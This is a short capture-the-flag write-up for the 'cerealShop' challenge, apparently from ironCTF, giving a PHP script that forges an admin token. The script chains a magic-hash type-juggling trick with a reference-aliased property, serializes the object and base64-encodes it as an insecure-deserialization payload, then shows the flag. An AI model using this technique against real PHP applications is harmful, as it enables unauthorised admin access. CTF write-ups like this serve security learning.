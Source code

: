 # cerealShop

Solved by: @vicevirus

## Question:

I asked my friend to set up a website for my shop. He says it's completely secure, and no one can get access to the source. Can you prove him wrong?

## Solution:

```php
// read /var/www/html/index.php
// then generate a token
<?php
class Admin
{
    public $is_admin = "";
    public $your_secret = "";
    public $my_secret = "";
    public function __construct($in, $ysecret, $msecret)
    {
        $this->is_admin = md5($in);
        $this->your_secret = $ysecret;
        $this->my_secret = $msecret;
    }
    public function __toString()
    {
        return $this->is_admin;
    }
}

// Create an Admin object with a magic hash for is_admin
// '240610708' md5 hash is '0e462097431906509019562988736854' which PHP treats as 0 wen compared using ==
$obj = new Admin("240610708", "initial_secret", "initial_secret");

$obj->your_secret = &$obj->my_secret;

$serialized = serialize($obj);

$encoded = base64_encode($serialized);

echo $encoded;
?>
```

**Flag:** `ironCTF{D353r1411Z4710N_4T_1T5_B35T}`
